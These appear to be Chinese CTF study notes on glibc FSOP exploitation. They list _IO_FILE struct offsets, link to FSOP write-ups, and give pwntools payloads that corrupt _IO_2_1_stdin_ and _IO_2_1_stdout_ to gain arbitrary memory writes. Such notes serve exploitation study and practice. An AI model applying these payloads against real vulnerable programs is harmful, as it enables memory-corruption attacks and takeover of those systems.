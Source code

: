 ```python
0xa8:'_freeres_list',
0xb0:'_freeres_buf',
0xb8:'__pad5',
0xc0:'_mode',
0xc4:'_unused2',
0xd8:'vtable'
```

‍

‍

‍

- 参考

> [https://faraz.faith/2020-10-13-FSOP-lazynote/](https://faraz.faith/2020-10-13-FSOP-lazynote/)
>
> https://enzo.run/posts/lactf2024/#flipma

## `_IO_2_1_stdin_` 任意地址写入

```python
# 直接改 _IO_2_1_stdin_ 内容
payload = p64(0xfbad1800) + p64(0) * 6 + p64(x) + p64(x + 0x100) # 写的size





# 改 elf bss 段上的

	payload = p64(0xfbad1800) + p64(0) * 6 + p64(x) + p64(x + 0x100)
	payload = payload.ljust(0x70,b'\x00')
	payload += p64(0x1000000000)
	payload += p64(0xFFFFFFFFFFFFFFFF)
	payload += p64(0xa000000)
	#payload += p64(libc.sym['_IO_stdfile_0_lock'])
	payload += p64(libc_base + 3958672)
	payload += p64(0xFFFFFFFFFFFFFFFF)
	payload += p64(0)
	#payload += p64(libc.sym['_IO_wide_data_0'])
	payload += p64(libc_base + 3951040) # 
	payload += p64(0) * 3
	payload += p64(0xffffffff)
	payload += p64(0) * 2
	payload += p64(libc.sym['_IO_file_jumps'])
```

‍

```bash
x =  _IO_2_1_stdout_
pay = b'\x00' * 0x90 + p64(0xfbad1800) + p64(0) * 6 + p64(x) + p64(x + 0x130)
```
